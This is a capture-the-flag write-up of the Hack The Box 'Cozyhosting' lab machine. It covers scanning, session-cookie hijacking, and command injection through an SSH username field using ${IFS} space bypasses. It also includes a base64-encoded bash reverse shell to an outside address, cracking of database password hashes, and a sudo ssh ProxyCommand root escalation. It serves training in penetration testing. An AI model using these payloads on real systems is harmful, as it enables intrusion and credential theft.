 ```yaml
---
title: Cozyhosting
date: 2023-10-10
description: Cozyhosting | easy | HTB
categories:
- htb-easy
tags:
  - Command Injection
  - Postgresql
  - JTR
---
```


Cozyhosting is an easy machine from hackthebox which involved injection a session cookie redirecting to admin page. PLaying with the username field, got an error disclosing ssh command usage in the backend. After trying various bypassing methods sent the command without spaces and got back a shell as app user. Found credentials of postgres user in a jar file and dumped the hashes from the database. Cracked them using jtr and got access to josh user. Further enumerating, ssh can be run by josh user with root permissions.

<!--more-->

## NMAP TCP SCAN

```bash
# nmap -sC -sV -p- -vv --reason --min-rate=1000 -T4 10.10.11.230 -oN nmap_tcp_scan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80

- Surfing the website we got a cookie named JSESSIONID

```bash
# gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirb/common.txt

/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]

# gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/wfuzz/general/megabeast.txt -t 30

/actuator             (Status: 200) [Size: 634]
```

- Going to the ``actuator`` page

- Going to **/sessions** directory got two session cookie

```bash
{ "2F3333AC963252641A3BD937836A555A":"kanderson",
"2399F09710F0FCD106D670E1B184FAF0":"UNAUTHORIZED" }
```

- Intercepting the **/login** endpoint request in burpsuite and sending the above cookie value in place of `JSESSIONID` and we get redirected to a **/admin** page

- Below on that page we have connection settings (*hostname and username*)

- Intercepting the request in burpsuite and submitting *username* field as empty we get an error:

    `usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface] [-b bind_address] [-c cipher_spec] [-D [bind_address:]port] [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11] [-i identity_file`

- It means on the backend it is attempting a SSH connection.

- After trying some command injections, concluded that we cannot use spaces in the username field

- Google searched and got : https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces

- Again tried with sending username (*URL encoded*) as `;whoami${IFS%??};` but didn’t got any output

- So tried `;ping${IFS%??}-c${IFS%??}2${IFS%??}10.10.14.81${IFS%??};` (*URL encoded*) and on my machine `sudo tcpdump -i tun0 icmp` and got connection back

- So we can try to run a reverse shell (*URL encoded*): `echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44MS84ODg4IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash` and got a shell back

## Enum as app user

- Spawned fully interactive TTY Shell

- Found a file `cloudhosting-0.0.1.jar` in the **/app** directory and transferred it into my machine

- Searched for passwords after unjar the file: `unjar xvf cloudhosting-0.0.1.jar` , `grep -iR 'password' .` and got a file with credentials: `BOOT-INF/classes/application.properties`

- Got credentials of **postgres** user: **Vg&nvzAQ7XxR**

- Using these credentials connected to postgress database: `psql -h 127.0.0.1 -U postgres`

- Connected to **cozyhosting** database and got creds

```bash
cozyhosting=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

- Copied the hashes into a file and cracked them using *JTR:* `john hashes --wordlist=/usr/share/wordlists/rockyou.txt`

- We got a password **manchesterunited**

- Tried this password on *josh* and we get successfully logged in.


## Enum as josh user

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
  (root) /usr/bin/ssh *
```

- Went to gtfobins and got the shell as root

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# whoami
root
```